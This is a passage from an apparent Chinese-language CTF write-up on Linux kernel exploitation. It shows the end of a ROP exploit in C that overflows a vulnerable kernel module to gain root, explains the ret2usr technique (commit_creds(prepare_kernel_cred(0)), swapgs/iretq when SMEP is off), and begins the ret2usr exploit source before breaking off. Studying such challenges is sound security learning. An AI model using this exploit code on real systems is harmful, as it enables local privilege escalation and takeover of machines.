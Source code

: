 ```c
	rop[i++] = user_rflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;

	write(fd,rop,0x800);
	core_copy_func(fd,0xffffffffffff0000 | (0x100));

	return 0;
}
```

编译打包

```bash
gcc exp.c -static -masm=intel -g -o exp
```

然后QEMU运行

![image-20211114122536341](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20211114122536341.png)

提权成功

### EXP-ret2usr

这里先说一下ret2user的原理:
ret2usr 攻击利用了在没有开启SMEP（管理模式执行保护）的情况下，内核态CPU是可以访问执行用户空间的代码的。
用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
这个方法其实跟上面所说的ROP基本没有区别，最根本的区别就是把上面所需要rop构造出来的提权过程commit_creds(prepare_kernel_cred(0))直接写了一个函数，从而不需要rop调用，直接调用函数即可。

ret2usr 做法中，直接返回到用户空间构造的 commit_creds(prepare_kernel_cred(0))（通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 ring 0 特权，因此可以正常运行。之后也是通过 swapgs; iretq 返回到用户态来执行用户空间的 system("/bin/sh")

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell()
{
	if(!getuid())
	{
		system("/bin/sh");
	}
	else
	{
		puts("[*]spawn shell error!");
	}
	exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms","r");

	if(kallsyms_fd < 0)
```